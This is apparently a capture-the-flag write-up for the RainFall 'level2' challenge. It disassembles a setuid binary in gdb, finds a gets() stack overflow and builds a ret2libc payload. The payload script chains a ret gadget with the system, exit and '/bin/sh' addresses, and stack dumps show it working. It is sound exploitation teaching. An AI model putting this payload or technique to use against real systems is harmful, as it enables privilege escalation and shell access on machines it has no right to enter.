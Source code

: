 
# Preparations

Entering level2 home directory we see a level2 binary with sticky bit in access rights.
By objdumping the binary we see 2 functions: main and p:

	level2@RainFall:~$ objdump -D -M intel-mnemonic level2 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
	Dump of assembler code for function main:
	   0x0804853f <+0>:	push   ebp
	   0x08048540 <+1>:	mov    ebp,esp
	   0x08048542 <+3>:	and    esp,0xfffffff0
	   0x08048545 <+6>:	call   0x80484d4 <p>
	   0x0804854a <+11>:	leave
	   0x0804854b <+12>:	ret

The only action after prologue is a call of the p function.
So main will look like:

	int main(void)
	{
		p();
	}

Let's look in the p function:

	(gdb) disass p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:	push   ebp
	   0x080484d5 <+1>:	mov    ebp,esp
	   0x080484d7 <+3>:	sub    esp,0x68
	   0x080484da <+6>:	mov    eax,ds:0x8049860			;getting ready to fflush, some FILE stream
	   0x080484df <+11>:	mov    DWORD PTR [esp],eax		;arguments for fflush
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>		;call fflush
	   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]			;getting ready to gets
	   0x080484ea <+22>:	mov    DWORD PTR [esp],eax		;arguments for gets
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>		;call gets
	   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]		;something new, occured to be __builtin_return_address function
	   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax		;something new, occured to be __builtin_return_address function result put to a variable
	   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]		;something new, occured to be __builtin_return_address function result variable that starts to be used
	   0x080484fb <+39>:	and    eax,0xb0000000			;bitwise AND operator
	   0x08048500 <+44>:	cmp    eax,0xb0000000			;comparison with 0xb0000000
	   0x08048505 <+49>:	jne    0x8048527 <p+83>			;if not equal than directly to puts function preparation
	   0x08048507 <+51>:	mov    eax,0x8048620			;getting ready to printf
	   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]		;getting ready to printf
	   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx		;arguments to print
	   0x08048513 <+63>:	mov    DWORD PTR [esp],eax		;arguments to print
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>		;call printf
	   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1		;arguments to exit
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>		;call exit
	   0x08048527 <+83>:	lea    eax,[ebp-0x4c]			;preparation to puts
	   0x0804852a <+86>:	mov    DWORD PTR [esp],eax		;arguments to puts
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>		;call puts
	   0x08048532 <+94>:	lea    eax,[ebp-0x4c]			;preparation to strdup
	   0x08048535 <+97>:	mov    DWORD PTR [esp],eax		;arguments to strdup
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>		;call strdup
	   0x0804853d <+105>:	leave
	   0x0804853e <+106>:	ret

Let's see some insites by their addresses:

	(gdb) x/16cb 0x8049860
		0x8049860 <stdout@@GLIBC_2.0>:	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'
		0x8049868 <dtor_idx.6161>:	0 '\000'	0 '\000'	0 '\000'	0 '\000'	Cannot access memory at address 0x804986c

	Breakpoint 2, 0x080484e7 in p ()
	(gdb) i r ebp
		ebp            0xbffff6f8	0xbffff6f8
	(gdb) p/x 0xbffff6f8 - 0x4c
		$2 = 0xbffff6ac
	(gdb) x/16x 0xbffff6ac
		0xbffff6ac:	0x00000001	0xbffff8c1	0x0000002f	0xbffff70c
		0xbffff6bc:	0xb7fd0ff4	0x08048550	0x08049828	0x00000001
		0xbffff6cc:	0x08048381	0xb7fd13e4	0x00000014	0x08049828
		0xbffff6dc:	0x08048571	0xffffffff	0xb7e5edc6	0xb7fd0ff4
	(gdb) info frame
		Stack level 0, frame at 0xbffff700:
		 eip = 0x80484e7 in p; saved eip **0x804854a**
		 called by frame at 0xbffff710
		 Arglist at 0xbffff6f8, args:
		 Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
		 Saved registers:
		  ebp at 0xbffff6f8, eip at 0xbffff6fc

There is some rubbish before we put value to `$ebp - 0x4c` variable. But after:

	0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
	0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax

	(gdb) p $ebp + 0x4
		$1 = (void *) 0xbffff6fc
	(gdb) p/x *0xbffff6fc
		$3 = 0x804854a

That is return address from the `info frame`. In C return address can be saved with `__builtin_return_address function`.\
Now we need to find the buffer size.

	(gdb) print $ebp-0x4c
		$10 = (void *) 0xbffff6ac
	(gdb) print $ebp-0xc
		$11 = (void *) 0xbffff6ec
	(gdb) print 0xbffff6ec - 0xbffff6ac
		$15 = 64

We can overwrite buffer here. If we play a bit with buffer and check the stack with:
	
	(gdb)  x/50x 0xbffff6ac

We see that return address lies 80 bytes after the beginning of the buffer.

	(gdb) print 0xbffff6fc - 0xbffff6ac
		$16 = 80

Let's continue with examination:

	(gdb) x/20cb 0x8048620
		0x8048620:	40 '('	37 '%'	112 'p'	41 ')'	10 '\n'	0 '\000'	0 '\000'	0 '\000'

Numbers in hex are transferred to decimal with the help of programming calculator and finally we write the code in C.

# Exploitation

We can overwrite the return address and call system function with arguments. But they should be properly written to the stack.

> We’ll write the address of system to the location of the return address that we found. When ret command is executed, the stack pointer would move down to point to “return address 2”, which is where system function will expect its return address to be located (we’ll ignore it for now). The 4 bytes after that would be the first argument to system, so we need to put the address of string “/bin/sh” there.

In order to exploit this level we will need return address from the `p` function, `system` function address, `exit` function address and `/bin/sh` string address:

	1. **0x0804853e** <+106>:	ret - return address from p to main function. We should put it instead of 0x0804854a to cal system function
	2. $9 = {<text variable, no debug info>} 0xb7e6b060 <system>

	(gdb) p system
		$9 = {<text variable, no debug info>} 0xb7e6b060 <system>

	3. 0xb7f8cc58:	 "/bin/sh"

	(gdb) info proc map
		0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	(gdb) find 0xb7e2c000, +9999999, "/bin/sh"
		0xb7f8cc58
	(gdb) x/s 0xb7f8cc58
		0xb7f8cc58:	 "/bin/sh"

	4. 0xb7e5ebe0 <exit>

	(gdb) p exit
		$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

And now let's write exploitation:

	#!/usr/bin/python
	import struct
	
	buffer = ''
	buffer += 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT' # junk 80 letters
	buffer += struct.pack('I', 0x0804853e) # address of ret in p()
	buffer += struct.pack('I', 0xb7e6b060) # system
	buffer += struct.pack('I', 0xb7e5ebe0) # exit
	buffer += struct.pack('I', 0xb7f8cc58) # "/bin/sh"
	print(buffer)

And in `gdb` its work:

	(gdb) x/3i $eip
		=> 0x80484f2 <p+30>:	mov    eax,DWORD PTR [ebp+0x4]
		0x80484f5 <p+33>:	mov    DWORD PTR [ebp-0xc],eax
		0x80484f8 <p+36>:	mov    eax,DWORD PTR [ebp-0xc]
	(gdb) x/80x $esp
		0xbffff670:	0xbffff68c	0x00000000	0x00000000	0xb7e5ec73
		0xbffff680:	0x080482b5	0x00000000	0x00c30000	0x41414141
		0xbffff690:	0x42424242	0x43434343	0x44444444	0x45454545
		0xbffff6a0:	0x46464646	0x47474747	0x48484848	0x49494949
		0xbffff6b0:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
		0xbffff6c0:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x51515151
		0xbffff6d0:	0x52525252	0x53535353	0x54545454	**0x0804853e**
		0xbffff6e0:	**0xb7e6b060**	**0xb7e5ebe0**	**0xb7f8cc58**	0xb7e45400
		0xbffff6f0:	0x00000001	0xbffff784	0xbffff78c	0xb7fdc858
		0xbffff700:	0x00000000	0xbffff71c	0xbffff78c	0x00000000
		0xbffff710:	0x08048260	0xb7fd0ff4	0x00000000	0x00000000
		0xbffff720:	0x00000000	0xfcda27ff	0xcb9ee3ef	0x00000000
		0xbffff730:	0x00000000	0x00000000	0x00000001	0x08048420
		0xbffff740:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
		0xbffff750:	0x00000001	0x08048420	0x00000000	0x08048441
		0xbffff760:	0x0804853f	0x00000001	0xbffff784	0x08048550
		0xbffff770:	0x080485c0	0xb7fed280	0xbffff77c	0xb7fff918
		0xbffff780:	0x00000001	0xbffff8ad	0x00000000	0xbffff8c6

When we enter `system` function:

	(gdb) x/3i $eip
		=> 0xb7e6b060 <system>:	sub    esp,0x1c
		0xb7e6b063 <system+3>:	mov    DWORD PTR [esp+0x14],esi
		0xb7e6b067 <system+7>:	mov    esi,DWORD PTR [esp+0x20]
	(gdb) x/80x $esp
		0xbffff6e4:	**0xb7e5ebe0**	**0xb7f8cc58**	0xb7e45400	0x00000001